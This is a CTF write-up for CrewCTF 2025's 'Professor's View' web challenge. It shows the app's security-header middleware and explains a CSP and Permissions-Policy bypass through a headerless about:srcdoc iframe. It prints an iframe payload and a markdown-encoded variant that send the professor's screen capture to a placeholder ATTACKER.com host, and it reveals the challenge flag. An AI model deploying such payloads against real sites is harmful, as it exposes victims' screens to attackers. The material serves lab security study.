# Professor's View — CrewCTF 2025

> **Room / Challenge:** Professor's View (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** CrewCTF 2025
- **Challenge:** Professor's View (web)
- **Target / URL:** `https://professors-view.chal.crewc.tf/`
- **Difficulty:** `Hard`
- **Points:** `477`
- **Tags:** web, xss, sqli, auth, enumeration
- **Date:** `21-09-2025`

---

## Goal

We have to get the flag of the Professor which is showned in his dashboard.

## My Solution

Here is the [Source Code](./professor-view.tar.gz)

Unlike Hate Notes and Love Notes, Professor's View response is set:

```
Content-Security-Policy: script-src 'self' https://js.hcaptcha.com/1/api.js; style-src 'self'; img-src 'self'; font-src 'none'; connect-src 'none'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self';
```

So from now on we can skip the XSS and CSS Exfiltration.

You can read full write-up of the author `bubu` [here](https://albertofdr.github.io/post/crewctf-2025/)

But I have the base idea:

The app has a route `/profmeet` which should be used to create meetings or calls. That can explain why the `Permissions-Policy` has `self` value for `camera`, `display-capture`.

```javascript
// Middleware to add security headers to all responses
app.use((req, res, next) => {
  // Prevent any attack
  res.setHeader("X-Content-Type-Options", "nosniff");
  res.setHeader("X-Frame-Options", "DENY");
  res.setHeader(
    "Content-Security-Policy",
    "script-src 'self' https://js.hcaptcha.com/1/api.js; style-src 'self'; img-src 'self'; font-src 'none'; connect-src 'none'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self';"
  );
  res.setHeader("Referrer-Policy", "no-referrer");
  res.setHeader(
    "Permissions-Policy",
    "accelerometer=(),attribution-reporting=(),autoplay=(),browsing-topics=(),camera=self,captured-surface-control=(),ch-device-memory=(),ch-downlink=(),ch-dpr=(),ch-ect=(),ch-prefers-color-scheme=(),ch-prefers-reduced-motion=(),ch-rtt=(),ch-save-data=(),ch-ua=(),ch-ua-arch=(),ch-ua-bitness=(),ch-ua-form-factors=(),ch-ua-full-version=(),ch-ua-full-version-list=(),ch-ua-mobile=(),ch-ua-model=(),ch-ua-platform=(),ch-ua-platform-version=(),ch-ua-wow64=(),ch-viewport-height=(),ch-viewport-width=(),ch-width=(),clipboard-read=(),clipboard-write=(),compute-pressure=(),cross-origin-isolated=(),deferred-fetch=(),digital-credentials-get=(),display-capture=self,encrypted-media=(),ethereum=(),fullscreen=(),gamepad=(),geolocation=(),gyroscope=(),hid=(),identity-credentials-get=(),idle-detection=(),join-ad-interest-group=(),keyboard-map=(),local-fonts=(),magnetometer=(),microphone=self,midi=(),otp-credentials=(),payment=(),picture-in-picture=(),private-aggregation=(),private-state-token-issuance=(),private-state-token-redemption=(),publickey-credentials-create=(),publickey-credentials-get=(),run-ad-auction=(),screen-wake-lock=(),serial=(),shared-storage=(),shared-storage-select-url=(),solana=(),storage-access=(),sync-xhr=(),unload=(),usb=(),window-management=(),xr-spatial-tracking=()"
  );
  res.setHeader("Cache-Control", "no-store");
  next();
});
```

There is a bypass method by using `about:srcdoc` headerless document which do not produce HTTP requests and therefore lack response headers. The payload will be constructed like this: `<iframe srcdoc="<iframe src='https://ATTACKER.com' allow='display-capture'></iframe>"></iframe>`.

In the markdown, that payload will become `&[a[srcdoc=&lt;iframe/src=&apos;https://ATTACKER.COM&apos;/allow=display-capture&gt; ](a)](a)`, because markdown blocks `<` and `>`. So we can make a complain with that payload and get the screenshot in our server.

You can view the `server.js` created by `bubu` [here](https://github.com/AlbertoFDR/CTF/blob/main/created-challs/CrewCTF-2025/professors-view/solution/server.js)

![Guide image](../screenshots/professor-view-1.webp)

We can get the flag: `crew{permissions_are_fun_even_that_people_dont_really_care_1a3b7c9d}`

## Lessons Learned

- Markdown Exploit
- Beyond XSS Exploitation
